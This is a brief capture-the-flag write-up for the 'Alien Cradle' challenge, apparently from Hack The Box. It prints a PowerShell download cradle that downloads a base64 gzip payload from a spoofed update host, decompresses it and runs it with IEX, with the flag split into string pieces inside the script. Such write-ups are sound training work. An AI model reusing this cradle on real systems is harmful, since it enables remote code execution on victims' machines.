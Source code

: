 In Alien Cradle, the provided file is a powershell script:

![image](https://user-images.githubusercontent.com/80063008/227502377-d8b008b7-3114-41a6-b78d-79502e3f950e.png)

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

As we can see, the flag is broken up in a couple of pieces which we can easily put together to form:

HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
